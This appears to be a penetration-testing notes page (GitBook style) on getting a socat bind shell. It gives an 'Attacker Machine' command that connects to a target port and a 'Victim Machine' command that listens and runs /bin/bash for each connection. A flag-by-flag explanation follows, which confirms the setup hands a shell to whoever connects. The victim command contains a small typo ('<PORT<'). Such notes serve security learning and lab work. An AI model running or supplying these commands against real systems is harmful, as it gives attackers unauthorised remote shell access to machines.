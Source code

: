 **Attacker** Machine &#x20;

```bash
socat  -d -d -d - TCP4:<IP>:<PORT>
```

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

**Victim** Machine &#x20;



```bash
socat -d -d -d tcp4-listen:<PORT<,fork exec:/bin/bash
```

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

* `socat`: The command-line utility for bidirectional data transfer between two independent data channels.
* `-d -d -d`: These flags enable different levels of debugging output. Each `-d` increases the verbosity of the debug information.
* `tcp4-listen:<PORT>`: This option tells `socat` to listen for incoming TCP connections on the specified port (`<PORT>`). The `tcp4` part specifies that only IPv4 connections are accepted.
* `fork`: This option tells `socat` to fork a new process for each incoming connection. This allows multiple clients to connect simultaneously, each handled by its own process.
* `exec:/bin/bash`: This part of the command specifies that when a connection is established, `socat` should execute `/bin/bash`. This effectively provides a shell to the connected client.

